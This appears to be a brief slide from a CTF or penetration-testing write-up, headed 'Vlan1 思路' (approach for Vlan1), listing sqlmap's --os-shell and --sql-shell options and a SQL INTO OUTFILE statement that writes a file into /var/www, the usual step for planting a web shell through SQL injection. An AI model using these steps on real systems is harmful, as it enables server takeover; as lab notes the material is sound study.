

# Vlan1 思路
SQLMAP is Awesome x2
--os-shell
--sql-shell
select ‘xxx’ into outfile ‘/var/www/adog.php’;